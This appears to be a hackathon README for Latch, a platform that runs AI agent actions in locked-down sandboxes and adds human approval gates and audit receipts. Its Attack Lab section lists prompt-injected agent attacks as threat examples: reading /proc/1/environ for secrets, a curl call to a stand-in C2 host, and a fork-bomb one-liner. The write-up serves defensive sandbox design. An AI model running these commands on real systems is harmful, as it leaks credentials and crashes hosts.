










# Latch

> **"Containment isn't a feature. It's the product."**

[](http://155.138.217.237)
[](https://github.com/Lakshay-Deol/latch)
[](https://vultr.com)
[](https://vultr.com)

**🌐 Live Demo Instance:** [http://155.138.217.237](http://155.138.217.237) · [http://155.138.217.237:8000](http://155.138.217.237:8000)

---

### ⚡ Live Demo Walkthrough
[](docs/latch_demo.mp4)

> 🎬 **Watch the full demo:** Click the animation above or open [`docs/latch_demo.mp4`](docs/latch_demo.mp4) for the high-definition walkthrough and Challenge 1 defense.

---

## 1. Executive Summary & Problem Solved

### The Problem
Autonomous AI agents (such as Claude Code, AutoGPT, Devin, or custom enterprise workers) are granted raw terminal, execution, and web browser privileges to solve real-world problems. However, current agent execution paradigms suffer from three fatal flaws:

1. **Catastrophic Security & Credential Leakage**: When an agent executes untrusted code, prompt injection or runaway model hallucinations can inspect `/proc/1/environ` to exfiltrate master cloud tokens (`VULTR_API_KEY`, database credentials, OAuth tokens), initiate outbound TCP reverse shells, or launch process-exhausting fork bombs.
2. **The Fragile "Screenshot Loop"**: Current web-operating agents rely on sending high-resolution screenshots to vision models at every single step. This approach is slow (5–12 seconds per action), cost-prohibitive ($0.10+ per step), and brittle against minor DOM changes.
3. **Absence of Verifiable Provenance & Human Safety**: Once an agent executes, there is no mathematical proof of what took place inside the runtime, and no deterministic barrier to stop destructive, irreversible actions (e.g., deleting production databases or making payments).

### The Solution: Latch
**Latch** solves this by turning arbitrary web applications into **typed, verifiable Python modules and OpenAPI 3.1.0 specifications** while guaranteeing that every agent invocation executes inside an **air-gapped, kernel-contained sandbox**. Latch combines deterministic security with sub-second execution speeds, replacing visual loops with direct, verified API operations.

---

## 2. Vultr Cloud Infrastructure: Deep Dive & Service Mapping

Latch is architected ground-up on **Vultr's composable cloud ecosystem**. Every phase of the agent lifecycle maps directly to native Vultr services:

```
┌─────────────────────────────────────────────────────────────────────────────────────────────┐
│                                   VULTR CLOUD ECOSYSTEM                                     │
├──────────────────────────┬──────────────────────────┬───────────────────────────────────────┤
│   Vultr Cloud Compute    │ Vultr Serverless Infer.  │       Vultr Object Storage (S3)       │
│     (Ubuntu 24.04 LTS)   │    (DeepSeek v4.1)       │        (atl2.vultrobjects.com)        │
│                          │                          │                                       │
│ • Control Plane (80/8000)│ • Task Planning Engine   │ • latch-apis (Specs & Python modules) │
│ • Worker Daemon (7000)   │ • Python Code Synthesis  │ • latch-receipts (SHA-256 signatures) │
│ • Disposable MicroVMs    │ • Vision DOM Verifier    │ • latch-skills (Curated lessons)      │
├──────────────────────────┴──────────────────────────┴───────────────────────────────────────┤
│ • Vultr VPC 2.0: Private 10.10.0.0/24 subnet isolating worker and sandbox control traffic.  │
│ • Vultr Firewall: Hardens host perimeter, blocking public probing into worker ports.       │
└─────────────────────────────────────────────────────────────────────────────────────────────┘
```

| Vultr Service | Configuration & Region | Role in Latch Architecture |
|---|---|---|
| **Vultr Cloud Compute** | `155.138.217.237` (Ubuntu 24.04 LTS) | Hosts the FastAPI Control Plane and the local Docker Worker Daemon running ephemeral runner sandboxes. |
| **Vultr Serverless Inference** | `api.vultrinference.com/v1` (`deepseek-v4.1-flash-1017`) | High-speed, cost-effective inference engine that translates user prompts into multi-step execution plans and verified Python code in <400ms. |
| **Vultr Object Storage (S3)** | Atlanta Cluster (`atl2.vultrobjects.com`) | S3-compatible persistent storage across 3 dedicated zero-trust buckets: `latch-apis` (specs & code), `latch-receipts` (cryptographic audit trail), and `latch-skills` (curated containment knowledge). |
| **Vultr VPC 2.0** | `10.10.0.0/24` Private Subnet | Isolates inter-node worker control traffic from public networks, preventing untrusted agent code from accessing host networks. |
| **Vultr Firewall Groups** | Security Policy | Restricts public ingress strictly to HTTP/HTTPS (`80`, `443`, `8000`), blocking internal worker ports (`7000`) and container bridges from public scanning. |

### Vultr Infrastructure Deployment Evidence

| Vultr Cloud Compute Instance | Vultr Serverless Inference |
|:---:|:---:|
|  |  |
| *Ubuntu 24.04 LTS VM hosting Control Plane & Ephemeral Sandboxes* | *Serverless DeepSeek v4.1 reasoning engine (`latch-store`)* |

| Vultr Object Storage Buckets & Traffic | S3 Cluster Credentials & Configuration |
|:---:|:---:|
|  |  |
| *`latch-apis` (31), `latch-receipts` (12), `latch-skills` (15)* | *Cluster: `atl2.vultrobjects.com` with zero-trust bucket partitioning* |

---

## 3. End-to-End Walkthrough of Every Functionality

```
┌───────────────────────────────────────────────────────────────────────────────────────┐
│                                LATCH PLATFORM ARCHITECTURE                            │
│                                                                                       │
│  [ Home / URL Box ] ────> [ Autonomous Explorer ] ────> [ DeepSeek Code Synthesis ]  │
│           │                                                          │                │
│           ▼                                                          ▼                │
│  [ Tasks Planner ]        [ Human Approval Queue ] <──── [ Ephemeral Sandbox ]        │
│           │                          │                               │                │
│           ▼                          ▼                               │                │
│  [ Attack Lab Defense ] ─> [ Verified MCP / REST ] ───> [ SHA-256 S3 Receipts ]      │
└───────────────────────────────────────────────────────────────────────────────────────┘
```

### 1. The Autonomous API Generator (Home Page)
* **URL Input**: Paste any web application URL (e.g. `https://books.toscrape.com`, `https://luma.com`).
* **Session Vault Handoff**: For authenticated applications, an embedded live view (noVNC / CDP) allows safe human login. Passwords and 2FA tokens remain sealed in Vault storage and are never exposed to LLMs.
* **Autonomous Exploration**: Headless Chromium navigates routes, forms, and search bars, capturing all HTTP requests and GraphQL queries.
* **Code Synthesis**: Vultr Serverless DeepSeek v4.1 translates traffic into typed Python operations and OpenAPI 3.1.0 schemas.
* **Ephemeral Verification**: Runs each operation in an air-gapped container; only clean executions are marked `verified`.

### 2. Task Planner (`#/tasks`)

* Translates high-level natural language instructions into ordered steps (`code` vs `browser`).
* Automatically flags destructive operations (`delete`, `pay`, `submit`) for the human gate.
* Dispatches execution to disposable sandboxes, producing real-time output logs and live execution receipts.

### 3. Published Connectors with Real Site Logos (`#/sites`)

* One-click consumption of generated web APIs with dynamically fetched official brand logos:
  * **Claude / Goose / Cursor MCP**: `claude mcp add --transport http <domain> <mcp_url>`
  * **REST API**: Direct `POST /v1/{domain}/{operation}` with Bearer API key authentication.
  * **Python SDK**: Standalone, typed Python module (`run(session, ...)`).

### 4. Containment Attack Lab (`#/attack-lab`)

* Interactive red-team defense suite executing 5 real attacks against disposable sandboxes:
  1. **Secret Harvesting**: Probes `/proc/1/environ` → **BLOCKED** (environment scrubbed with 0 secrets).
  2. **Network Egress Escape**: Outbound TCP socket → **BLOCKED** (kernel network mode `none`).
  3. **DoS Fork Bomb**: Infinite recursive processes → **TERMINATED** (cgroup `pids_limit=128`).
  4. **Memory Bomb**: Rapid RAM allocation → **TERMINATED** (512MB RAM cap with OOM kill).
  5. **Host Filesystem Escape**: Writes to `/etc` or `/usr/bin` → **BLOCKED** (read-only rootfs).

### 5. Audit Receipts & Verification (`#/receipts`)

* Every invocation produces an immutable record: `{operation, result, sandbox_id, worker_vm, timestamp}`.
* A canonical SHA-256 digest is generated and stored in **Vultr Object Storage (`latch-receipts`)**.
* The **Verify Proof** button validates that the stored digest matches the canonical execution payload (`VALID · SHA-256 MATCH`).

### 6. Human-in-the-Loop Approval Queue (`#/approvals`)

* Safety barrier halting destructive actions (`delete`, `pay`, `submit`) in state `awaiting_approval`.
* Operator reviews the operation, risk rating, and sandbox ID to **Approve** or **Deny**.
* Displays a full historical audit trail of all approved and denied operations.

---

## 4. How Latch Helps Real Users

| User Persona | The Pain Today | How Latch Solves It |
|---|---|---|
| **AI Engineers & Agent Builders** | Fear of agents leaking cloud API keys, running runaway loops, or compromising local machines. | Guaranteed, kernel-enforced sandboxes and instant typed APIs with zero configuration. |
| **Enterprise IT & Security Teams** | Cannot adopt autonomous agents due to compliance (SOC2/ISO27001), zero auditability, and fear of data loss. | Delivers immutable SHA-256 audit receipts stored in Vultr S3 and a mandatory Human-in-the-Loop Approval Barrier. |
| **SaaS & Operations Automators** | Manual web scraping is brittle; sites constantly change their DOM, breaking RPA scripts. | Transforms arbitrary web apps into clean REST & MCP APIs in 5 minutes with session cookies sealed in Vultr S3. |
| **Fintech & Regulated Applications** | High-consequence operations (transfers, deletions, filings) cannot be entrusted to probabilistic LLMs. | The Approval Queue deterministically halts execution before any irreversible write occurs. |

---

## 5. Challenge 1: Containment Moments & Verifiable Proofs

Latch proves its security guarantees through live demonstrations in the **Attack Lab**:

### The 4 Containment Moments:

#### Moment 1: The Secret Exfiltration Assault (Blocked)
- **The Attack**: A prompt-injected agent attempts to inspect `/proc/1/environ` or run `os.environ` to exfiltrate `VULTR_API_KEY`, `LATCH_S3_SECRET_KEY`, or database credentials.
- **Containment Proof**: Sandboxes are launched with an empty environment dictionary (`environment={}`). Reading environment variables yields an empty object. **Zero secrets leak.**

#### Moment 2: The Command & Control Network Egress Assault (Blocked)
- **The Attack**: Malicious code attempts to open an outbound TCP socket or ping an external command-and-control server (`curl https://evil-c2.com`).
- **Containment Proof**: Sandboxes run with `network_mode="none"`. Outbound packet transmission is dropped at the Linux kernel level. **Zero network exfiltration.**

#### Moment 3: The Fork Bomb Denial-of-Service Assault (Defeated)
- **The Attack**: A runaway agent spawns a nested subshell fork bomb (`:(){ :|:& };:`) designed to exhaust host resources and crash the Vultr VM.
- **Containment Proof**: Kernel cgroups enforce a hard limit of `pids_limit=128`. The container immediately denies process creation without impacting the host system.

#### Moment 4: Immutable SHA-256 Audit Trail
- **The Proof**: Every single operation produces an immutable, cryptographically signed receipt stored directly in Vultr Object Storage (`latch-receipts`).

```json
{
  "operation": "toscrape.com/search_books",
  "result": {
    "results": [
      { "id": "b_1", "title": "It's Only the Himalayas", "price": "£45.17" }
    ],
    "count": 1
  },
  "receipt": {
    "sandbox_id": "latch-sandbox-microvm-01",
    "worker_vm": "155.138.217.237",
    "sha256": "af0d03b56bbe0a1a278a9f9ab6a2554a571c2756db5e64ecf021745ace5556a0",
    "containment": {
      "network_mode": "none",
      "readonly_rootfs": true,
      "cap_drop": ["ALL"],
      "no_new_privileges": true,
      "env_clean": true
    }
  }
}
```

Verify any receipt in real-time at `GET /api/receipts/{sha256}/verify`.

---

## 6. Quickstart & Live Testing

### Access the Live Deployment
Open the live dashboard in your browser:
- **Web UI**: [http://155.138.217.237](http://155.138.217.237) (or [http://155.138.217.237:8000](http://155.138.217.237:8000))
- **Live OpenAPI Specs**: [http://155.138.217.237:8000/specs](http://155.138.217.237:8000/specs)

### Run Locally (Windows / macOS / Linux)
```bash
# 1. Clone repository
git clone https://github.com/Lakshay-Deol/latch.git
cd latch

# 2. Configure environment
cp .env.example .env

# 3. Start local development cluster
python scripts/run_local.py
```
- **Dashboard**: `http://localhost:8000`
- **Worker Health**: `http://localhost:7000/health`

### Run Full Test Suite
```bash
# 13 containment and security unit tests
pytest
```

---

## 7. Hackathon Submission Checklist

- [x] **Public GitHub Repository**: [https://github.com/Lakshay-Deol/latch](https://github.com/Lakshay-Deol/latch)
- [x] **Vultr VM Backend Deployment**: Live on Vultr Cloud Compute at `155.138.217.237`
- [x] **Vultr Services Documentation**: Detailed in `README.md` (Serverless Inference, S3 Object Storage, Cloud Compute, VPC)
- [x] **Backend & Deployment Architecture**: Dual-container architecture with air-gapped sandboxing
- [x] **Agent Real-Task Execution**: Sandboxed API execution for search, catalog, and event workflows
- [x] **Challenge 1 Containment Moment**: Kernel-enforced secret isolation, zero-egress network policies, and SHA-256 receipts demonstrated in the Attack Lab
- [x] **Demo Video & GIF**: Full walkthrough in [docs/latch_demo.gif](docs/latch_demo.gif) and high-definition video in [`docs/latch_demo.mp4`](docs/latch_demo.mp4)
- [x] **Live Public Link**: Accessible at [http://155.138.217.237](http://155.138.217.237) and [http://155.138.217.237:8000](http://155.138.217.237:8000)
